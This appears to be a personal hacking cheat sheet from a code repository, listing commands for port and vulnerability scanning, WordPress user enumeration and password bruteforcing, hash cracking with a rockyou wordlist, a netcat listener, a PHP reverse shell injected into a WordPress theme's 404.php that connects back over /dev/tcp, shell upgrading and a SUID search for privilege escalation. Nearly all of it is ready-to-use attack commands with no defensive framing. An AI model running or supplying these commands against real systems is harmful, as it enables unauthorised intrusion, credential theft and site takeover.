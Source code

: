 ﻿# Hacking-Tool
https://www.whois.com/whois
https://wigle.net/
https://gchq.github.io/CyberChef/

exiftool <bild.png>

## Scan
### Nmap
    scans ports on a server
    nmap -A -p 22,80,443 <ip>
    nmap --script vuln -p 22,80,443 <ip>
### nikto
    scans /xyz
    nikto -h http://<ip>/ -nossl
### Directory scan
    dirb http://<ip>
### Wordpress scan
    scans Wordpress sites
    wpscan --url http://<ip>/ -et -ep -eu 
    wpscan --url http://<ip>/ --wp-content-dir -et -ep -eu
    Bruteforcing wordpress:
    wpscan --url http://<ip>/ --wp-content-dir -eu -P <file>.dic

## asdf
  ### hashcat
    Cracks hash
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt //
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt --show

## reverse shell
### listener
    nc -lvp <port>
### php // wordpress
    Go to appearance -> editor -> Put the code in 404.php
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
    ?>
### must be run from a terminal
	python -c 'import pty;pty.spawn("/bin/bash");'


## root
### loking for files you can execute
	find / -perm -u=s -type f 2>/dev/null
## Files
### download
    wget <url>
### Sort file and remove duplication
    sort <file> | uniq > sort_<file>
    wc -l sort_<file>

